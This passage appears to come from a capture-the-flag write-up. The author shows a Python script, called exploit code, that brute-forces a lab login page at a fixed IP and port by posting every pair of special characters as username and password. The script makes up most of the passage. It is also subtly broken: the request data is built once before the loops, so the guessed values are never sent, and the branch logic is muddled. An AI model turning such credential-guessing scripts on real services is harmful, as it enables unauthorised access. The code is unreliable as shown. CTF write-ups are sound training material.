 I found out that there are lots of credentials that provides `500` status code.
So, I modified the script to output only  `200` status code.

![special_chr_status_200](Images/special_chr_status_200.png)

The special character exploit code is:
```
# Arijit-Bhowmick [sys41414141]

import requests

url = "http://206.189.121.131:30184/login"

user_name, passwd =  "", ""

data = {"username":user_name, "password":passwd}

#special_characters = (32–47 / 58–64 / 91–96 / 123–126)

char = ''

chr_num_dict= {32:47, 58:64, 91:96, 123:126}

for start in chr_num_dict.keys():
	for j in range(start, chr_num_dict[start]+1):
		char+=chr(j)

for uname_chr in char:
	
	user_name = uname_chr

	for passwd_chr in char:
		
		passwd = passwd_chr

		r = requests.post(url, data=data)

		if (r.status_code != 500) and ("Please login" not in r.text):

			print(f"STATUS_CODE = {r.status_code}   ||  USERNAME = {user_name} | PASSWORD = {passwd}")
			
		elif (r.status_code != 404) or ("Please login" in r.text):
			
			#print(f"TEST >>> STATUS_CODE = {r.status_code}   ||  USERNAME = {user_name} | PASSWORD = {passwd}") # For testing purpose
			continue


```
